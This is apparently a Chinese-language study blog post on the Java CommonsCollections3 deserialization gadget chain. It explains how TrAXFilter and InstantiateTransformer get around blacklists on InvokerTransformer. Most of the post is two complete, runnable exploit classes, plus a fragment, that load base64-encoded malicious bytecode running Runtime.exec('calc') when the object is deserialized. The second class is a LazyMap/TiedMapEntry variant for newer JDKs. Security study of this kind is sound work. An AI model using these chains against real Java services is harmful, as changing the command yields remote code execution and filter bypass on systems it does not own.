

# 前言

开始CC3链的学习，学完这个之后就暂时不再看Java的反序列化了，先去把JavaWeb给补一下，可能需要1-2个月的时间。再过2个星期开学了还要忙考试的事情，还有课程，还有很多的事情，到时候会更忙，只能趁着现在能多学一点是一点了。

所以其实CC链的学习也并不完全，`commons-collections4.0`的代表链CC2还没有学，不过也不会咕太久，可能接下来哪天JavaWeb学烦了就来看看CC2解解压也是有可能的。


# 分析

跟着P神的文章学习很大的好处就是可以很明显的感觉到思考的过程，整个学习的路线是以思考和解决问题来驱动的。

上一篇文章了解了利用`TemplatesImpl`来动态的加载字节码，因此很自然的就会想到，怎么利用它，因此也便有了CC3。

首先便是在CC1中应用动态加载字节码。这样就无需用`InvokerTransformer`来从`Runtime.class`到`exec()`了，直接把字节码加载进行，然后用`InvokerTransformer`调用一下`newTransformer()`即可：

```java
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","feng");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",
                        new Class[0],
                        new Object[0]),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap,null,chainedTransformer);
        outerMap.put(1,1);
```


但是这并不是真正的CC3。CC3产生的目的就是为了绕过⼀些规则对`InvokerTransformer`的限制。也就是说，有些反序列化的过滤器的黑名单中有了`InvokerTransformer`，因此需要绕过。

`ysoserial`的作者找到了`com.sun.org.apache.xalan.internal.xsltc.trax`下面的`TrAXFilter`类，它的构造器非常有意思，调用了`newTransformer`：

```java
    public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

因此下一步就是想办法能够在反序列化的时候调用这个构造器了。我第一反应就是，构造器该怎么调用，难道是找一个方法，里面实例化了这么个对象，而且传入的`templates`可控？


`ysoserial`的作者找到了`CommonsCollections`中的这个`InstantiateTransformer`类：

```java
Transformer implementation that creates a new object instance by reflection.
```

通过反射创建一个新对象，这个类有这两个属性，还有这么一个`transform`：

```java

    /** The constructor parameter types */
    private final Class[] iParamTypes;
    /** The constructor arguments */
    private final Object[] iArgs;
```


```java
    public Object transform(Object input) {
        try {
            if (input instanceof Class == false) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                        + (input == null ? "null object" : input.getClass().getName()));
            }
            Constructor con = ((Class) input).getConstructor(iParamTypes);
            return con.newInstance(iArgs);
```

无需解释了，通过反射来调用构造器。因此我们实际上不需要用到`InvokerTransformer`，用`InstantiateTransformer`就可以了。


结合CC1，构造出完整的POC：

```java
package com.summer.cc3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections3 {

    public static void main(String[] args) throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","feng");
        //setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter")),
                new InstantiateTransformer(
                        new Class[]{Templates.class},
                        new Object[]{templates}
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value","feng");
        Map outerMap = TransformedMap.decorate(innerMap,null,chainedTransformer);

        //Reflection
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object o = cons.newInstance(Retention.class,outerMap);

        byte[] bytes = serialize(o);
        unserialize(bytes);


    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```




## 疑惑

可能有细心的师傅会注意到，POC中我把这一行代码给注释了：

```java
        //setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

确实很奇怪，在之前利用`TemplatesImpl`动态加载字节码的时候专门说了这里，这里如果不设值的话，调用`newTransformer()`的后面的调用链子会抛出异常，因为在`null`上面调用了方法。

实际上我对这个一开始的疑问是，`TransformerFactoryImpl`类是可以序列化的吗？然后我看了一下它的父类和接口类，都不是可反序列化的，所以我一开始的疑问其实是，为啥可以序列化。

随后我在Y4师傅的文章中看到了这么一句话：

> 扣个小细节`_tfactory`我个人觉得可以不用加上，但可能是大师傅觉得加上这个减少报错条件，现在太菜了还是猜不透加这个原因，毕竟与这个相关的调用也在我们弹出计算器之后了


我就更懵了为啥还可以不加上。然后去跟了一下代码也很迷，最终才发现原来是这里：

```java
private transient TransformerFactoryImpl _tfactory = null;
```

这个属性是瞬态的属性，本身就没法序列化。而在`TemplatesImpl`的`readObject()`方法中：

```java
    private void  readObject(ObjectInputStream is)
      throws IOException, ClassNotFoundException
    {
        SecurityManager security = System.getSecurityManager();
        if (security != null){
            String temp = SecuritySupport.getSystemProperty(DESERIALIZE_TRANSLET);
            if (temp == null || !(temp.length()==0 || temp.equalsIgnoreCase("true"))) {
                ErrorMsg err = new ErrorMsg(ErrorMsg.DESERIALIZE_TRANSLET_ERR);
                throw new UnsupportedOperationException(err.toString());
            }
        }

        // We have to read serialized fields first.
        ObjectInputStream.GetField gf = is.readFields();
        _name = (String)gf.get("_name", null);
        _bytecodes = (byte[][])gf.get("_bytecodes", null);
        _class = (Class[])gf.get("_class", null);
        _transletIndex = gf.get("_transletIndex", -1);

        _outputProperties = (Properties)gf.get("_outputProperties", null);
        _indentNumber = gf.get("_indentNumber", 0);

        if (is.readBoolean()) {
            _uriResolver = (URIResolver) is.readObject();
        }

        _tfactory = new TransformerFactoryImpl();
    }
```

最后一行给这个属性初始化了：`_tfactory = new TransformerFactoryImpl();`，因此也就是为什么后面的调用链不会抛出异常。

这种细节还是我所缺乏的，还是得慢慢学习。

# 改进

主要还是用到了`AnnotationInvocationHandler`，在高版本JDK中不能用。所以结合CC6（通用链），利用`LazyMap`和`TiedMapEntry`进行改进即可。

最终的POC：

```java
package com.summer.cc3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections3 {

    public static void main(String[] args) throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","feng");
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter")),
                new InstantiateTransformer(
                        new Class[]{Templates.class},
                        new Object[]{templates}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry,"feng2");
        outerMap.remove("feng1");

        Class clazz =Class.forName("org.apache.commons.collections.functors.ChainedTransformer");
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,trueTransformers);

        byte[] bytes = serialize(expMap);
        unserialize(bytes);
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```

而`ysoserial`中的并不是这样，仍然用的是CC1中的`LazyMap`链，利用`AnnotationInvocationHandler`的动态代理来实现。而且前面似乎是用到了`JAVAssist`，似乎和CC2是一样的，而CC2暂时还没学，所以暂时对`ysoerialz`的代码理解整体的思路就足够了。

# 参考链接

Java安全漫谈 - 14.为什么需要CommonsCollections3.pdf

https://www.guildhab.top/2020/09/java-%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e9-%e8%a7%a3%e5%af%86-ysoserial-commonscollections3-pop-chains/


https://y4tacker.blog.csdn.net/article/details/119084222


